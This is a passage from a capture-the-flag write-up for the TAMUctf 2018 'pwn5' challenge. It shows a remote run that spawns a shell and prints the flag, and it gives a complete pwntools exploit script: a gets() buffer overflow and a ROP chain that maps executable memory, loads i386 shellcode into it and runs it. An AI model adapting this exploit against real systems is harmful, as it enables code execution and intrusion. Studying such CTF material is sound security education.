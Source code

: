 Looks like it works. Now for the real deal, testing it remotely.

```console
$ python solution.py REMOTE
[*] '/home/user/ctf/2018/tamuctf/pwn/pwn5/pwn5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to pwn.ctf.tamu.edu on port 4325: Done
[*] Loaded cached gadgets for './pwn5'
[*] Switching to interactive mode
$ ls
flag.txt
pwn5
sh
$ cat flag.txt
gigem{r37urn_0f_7h3_pwn}
$
[*] Closed connection to pwn.ctf.tamu.edu port 4325
```

With that, we have landed our exploit and gottten the flag, `gigem{r37urn_0f_7h3_pwn}`.

## Solution

```python
#!/usr/bin/python

from pwn import *
import sys

BINARY = './pwn5'

elf = ELF(BINARY)
context.binary = BINARY

if args['REMOTE']:
    p = remote('pwn.ctf.tamu.edu', 4325)
else:
    p = process(BINARY)

to_eip = ''
to_eip += 'John\n'  # First Name
to_eip += 'Doe\n'   # Last Name
to_eip += 'F#\n'    # Major (chord)
to_eip += 'n'       # Join corps (y/n)
to_eip += '2\n'     # Change Major
to_eip += 'A'*0x20  # Padding to reach eip using gets (080488AE / change_major+12)

rop = ROP(elf, badchars='\x0a')
rop.mmap(0xBAD0F000, 0x1000, \
        constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC, \
        constants.MAP_PRIVATE | constants.MAP_ANON, -1, 0)
rop.gets(0xBAD0F000)
rop.call(0xBAD0F000)
sh_payload = asm(shellcraft.i386.sh())

sploit = to_eip + rop.chain() + '\n' + asm(shellcraft.i386.sh()) + '\n'

p.send(sploit)
p.interactive()
```
